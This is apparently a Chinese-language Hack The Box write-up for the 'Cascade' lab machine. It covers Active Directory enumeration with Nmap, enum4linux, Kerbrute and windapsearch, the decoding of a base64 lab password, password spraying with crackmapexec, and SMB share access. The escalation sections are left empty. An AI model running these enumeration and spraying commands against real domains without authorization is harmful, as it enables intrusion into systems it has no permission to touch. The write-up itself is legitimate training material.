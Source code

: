 ```yaml
---
description: Medium / 枚举 / 解码
---
```


# ✔️ Cascade

## 建立立足点

### 信息枚举

* 使用Nmap对目标系统进行开放端口扫描：

```bash
nmap -sC -sV -p- -oA cascade 10.129.63.72 --open
```

<figure><img src="../../.gitbook/assets/1 (7).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/2 (7).png" alt=""><figcaption></figcaption></figure>

* 先把域名写入host文件：

<figure><img src="../../.gitbook/assets/4 (9).png" alt=""><figcaption></figcaption></figure>

* 先尝试匿名登录，无收获：

```bash
smbclient -N -L 10.129.63.72
```

<figure><img src="../../.gitbook/assets/3 (8).png" alt=""><figcaption></figcaption></figure>

* 使用enum4linux枚举一下：

<figure><img src="../../.gitbook/assets/5 (9).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/6 (9).png" alt=""><figcaption></figcaption></figure>

* 发现一些用户名和密码策略，用户名可以先收集起来：

<figure><img src="../../.gitbook/assets/7 (11).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/13 (8).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/8 (11).png" alt=""><figcaption></figcaption></figure>

* 找到了一些内置组信息和组成员关系：

<figure><img src="../../.gitbook/assets/9 (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 还有本地组信息和组成员关系：

<figure><img src="../../.gitbook/assets/10 (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/11 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 域组和域成员关系：

<figure><img src="../../.gitbook/assets/12 (8).png" alt=""><figcaption></figcaption></figure>

* 用Kerbrute先跑一遍之前收集到的那个username.txt里面的有效用户名：

```bash
./kerbrute_linux_amd64 userenum --dc 10.129.63.72 -d cascade.local username.txt
```

<figure><img src="../../.gitbook/assets/14 (7).png" alt=""><figcaption></figcaption></figure>

* 15个中有11个有效，至此虽然收集到了很多有效用户名，但是并没有获取到任何密码凭证。本想尝试暴力破解，但是11个用户名感觉不太可能，所以重新开始枚举，这里学习了一个新工具windapsearch，是用来通过LDAP查询来枚举目标中的用户、组、计算机等信息的（也可以用常规的ldapsearch进行枚举）：

```bash
./windapsearch.py -U --full --dc-ip 10.129.63.72
```

<figure><img src="../../.gitbook/assets/15 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 在其输出信息中找到了用户ryan的凭证信息，但是密码是被编码过的：<mark style="color:red;">**ryan : clk0bjVldmE=**</mark>

<figure><img src="../../.gitbook/assets/16 (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 解码，得到明文密码：<mark style="color:red;">**rY4n5eva**</mark>

```bash
echo clk0bjVldmE= | base64 -d
```

<figure><img src="../../.gitbook/assets/17 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### GET SHELL

* 拿到有效凭证后，直接使用evil-winrm获取shell，确认自己没有输错后，发现该凭证无效。

```bash
eviL-winrm -i 10.129.63.72 -u ryan -p rY4n5eva
```

<figure><img src="../../.gitbook/assets/18 (5).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
这种情况就可以尝试密码重用的测试了，hackthebox很喜欢搞这种事情。
{% endhint %}

* 使用crackmapexec和刚才的username.txt和这个密码，进行密码喷洒：

```bash
crackmapexec smb 10.129.63.72 -u username.txt -p 'rY4n5eva'
```

<figure><img src="../../.gitbook/assets/19 (7).png" alt=""><figcaption></figcaption></figure>

* 果然找到了另一个使用该密码的用户：<mark style="color:red;">**r.thompson**</mark>
* 使用这个有效凭证用evil-winrm进行连接获取shell，还是失败：

<figure><img src="../../.gitbook/assets/20 (6).png" alt=""><figcaption></figcaption></figure>

* 那就换个地方用这个有效凭证，使用smbmap可以登录到该账户的共享，发现几个只读的共享：

```bash
smbmap -H 10.129.63.72 -u r.thompson -p rY4n5eva
```

<figure><img src="../../.gitbook/assets/21 (4).png" alt=""><figcaption></figcaption></figure>

* 可以逐个枚举看看，最感兴趣的是Data：

```bash
smbclient //10.129.63.72/Data --user r.thompson
```

<figure><img src="../../.gitbook/assets/22 (4).png" alt=""><figcaption></figcaption></figure>

* 逐个枚举发现/IT可以进去：

<figure><img src="../../.gitbook/assets/23 (4).png" alt=""><figcaption></figcaption></figure>













## 权限提升

### 本地信息收集









### ROOT















{% hint style="info" %}
本例机器确实算中等难度，常规枚举后所得到的信息需要各种解码才能获取，在线的解码工具没什么用，从来没解出来过一次，解码命令行更好用。

(本例机器中途重置过，因此IP地址有变化，但其利用过程和结果不变)
{% endhint %}

